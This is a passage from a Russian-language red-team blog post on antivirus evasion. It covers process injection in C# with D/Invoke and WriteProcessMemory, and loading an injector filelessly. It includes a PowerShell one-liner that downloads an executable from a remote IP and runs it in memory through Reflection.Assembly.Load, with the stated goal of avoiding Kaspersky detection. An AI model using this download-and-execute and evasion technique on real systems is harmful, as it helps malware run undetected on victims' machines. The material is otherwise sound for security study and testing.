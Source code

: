 Это сделано, чтобы упростить использование целевой функции: синтаксис обращения к `WriteProcessMemory` в обоих случаях остается одинаковым:

```csharp
_ = WriteProcessMemory(hProcess, allocAddr, buf, buf.Length, out _);
```

Теперь важный момент: если мы решили пользоваться проектом D/Invoke, забываем о том, что бинарь можно положить на диск (посыпятся алерты). Но это не страшно, ведь это C#, а значит, всегда можно загрузить байты собранного инжектора прямо в память с помощью `System.Reflection.Assembly` (помним о том, что класс с точкой входа программы должен быть объявлен как `public`, равно как и функция `Main`).

Про загрузку сборок C# в память тоже есть несколько интересных статей:

- [Running a .NET Assembly in Memory with Meterpreter](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter/)
- [PowerShell load .Net Assembly](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [Converting C# Tools to PowerShell](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)

```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.0.184/DInvoke_DynamicAPIInvoke.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
$a = [DInvoke_DynamicAPIInvoke.Program]::Main(" ")
```

[![di-dynamicapiinvoke-kis.png](/assets/images/keethief-syscalls/di-dynamicapiinvoke-kis.png)](/assets/images/keethief-syscalls/di-dynamicapiinvoke-kis.png)
{:.center-image}

И снова мы ему не угодили
{:.quote}

Но ох и ах, и это поведение детектится «Касперским» при выполнении. Мы были к этому готовы, поэтому перейдем к тяжелой артилерии – систмным вызовам в D/Invoke.


[//]: # (2022-03-29)